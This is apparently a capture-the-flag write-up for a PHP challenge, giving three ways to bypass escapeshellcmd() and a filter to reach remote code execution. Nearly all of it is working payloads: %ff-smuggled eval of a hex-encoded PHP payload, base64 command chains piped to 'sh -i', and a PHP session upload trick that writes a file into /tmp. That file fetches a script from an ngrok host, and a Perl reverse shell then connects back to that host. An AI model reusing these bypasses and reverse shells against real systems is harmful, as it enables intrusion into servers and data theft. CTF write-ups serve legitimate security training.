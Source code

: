 ## Target

bypass escapeshellcmd() and filter to get RCE

## Method 1 : One-Liner Payload 

bypass escapeshellcmd() by %ff character
```
http://34.142.236.192:8091/?cmd=p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa24636f6e6e203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2022646f636b65724578616d706c6522293b0a24726573203d2024636f6e6e2d3e7175657279282273656c656374202a2066726f6d205468655f7461626c655f796f755f646f6e745f6b6e6f7722293b0a7768696c652824726f77203d20247265732d3e66657463685f6173736f63282929207b0a202020207072696e745f722824726f77293b0a7d),1))%3b
```
Useful tool : https://3v4l.org/Nk2DT

by @fredd#8512

## Method 2 : Shell with base64
```
http://35.197.133.28:8091/?cmd=sh%20-c%20$(printf${IFS}pri%27%27ntf)${IFS}aWQK|$(printf${IFS}ba%27%27se64)${IFS}-d|sh${IFS}-i

http://35.197.133.28:8091/?cmd=sh%20-c%20$(printf${IFS}pri%27%27ntf)${IFS}<ใส่ base64 ตรงนี้>|$(printf${IFS}ba%27%27se64)${IFS}-d|sh${IFS}-i
```

## Method 3 : God Solution 

For EzPHP

1.Abuse PHP sessions to drop file onto system. Example
```
curl http://34.142.236.192:8091/ -H 'Cookie: PHPSESSID=yeet1' -F $'PHP_SESSION_UPLOAD_PROGRESS=& curl http://0.tcp.au.ngrok.io:11712/rs.sh -o /tmp/rs.sh&&sd\nasdasd'  -F 'file=@/dev/urandom'
```

2.Execute by http://34.142.236.192:8091/?cmd=sh%20/tmp/sess_yeet1
Reverse shell http://34.142.236.192:8091/?cmd=sh%20/tmp/rs.sh. Reverse shell payload
```
perl -e 'use Socket;$i="0.tcp.au.ngrok.io";$p=11712;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

3.Once on drop mysql bins onto the system .
```
curl https://cdn.mysql.com//Downloads/MySQL-8.1/mysql-8.1.0-linux-glibc2.28-x86_64.tar.xz -o mysql.tar.xz
```

4.get flag from the other table (will send in a bit)


by @ghostccamm 
